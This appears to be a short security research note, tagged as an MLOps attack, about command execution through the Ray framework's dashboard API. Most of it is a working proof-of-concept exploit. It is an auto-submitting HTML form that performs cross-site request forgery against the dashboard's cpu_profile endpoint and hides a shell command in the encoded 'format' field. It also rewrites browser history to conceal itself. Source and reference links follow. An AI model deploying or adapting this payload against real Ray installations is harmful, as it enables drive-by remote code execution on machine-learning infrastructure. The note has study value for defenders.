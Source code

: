 ```yaml
---
aliases: 
tags:
  - MLops-attack
  - ART
last_tested: 08/2023
transferable:
---
```



## **PoC**
Ray is at its core a tool for arbitrary code execution! 
Command execution via API by anyone on the network
**Phishing URL to codex:** 

```
<html>
<body>
<form action="http://localhost:8265/worker/cpu_profile">
<input type="hidden" name="pid" value="66758" />
<input type="hidden" name="ip" value="192&#46;168&#46;1&#46;5" />
<input type="hidden" name="duration" value="5" />
<input type="hidden" name="native" value="0" />
<input type="hidden" name="format" value="&#96;&#59;&#96;touch&#32;&#47;tmp&#47;driveby&#96;" />
<input type="submit" value="Submit request" />
</form>
<script>
history.pushState('', '', '/');
document.forms[0].submit();
</script>
</body>
</html>

```
## **Details**
Source: twitter.com/danhmcinerney 
https://hackstery.com/2023/10/13/no-one-is-prefect-is-your-mlops-infrastructure-leaking-secrets/ 
A python lib with a UI, includes some java. Scales out resources for creating models

	
[Video](https://www.youtube.com/watch?v=e3ybnXjtpIc)
[Paper](https://arxiv.org/abs/2302.10149) 
### ATT&CK Matrix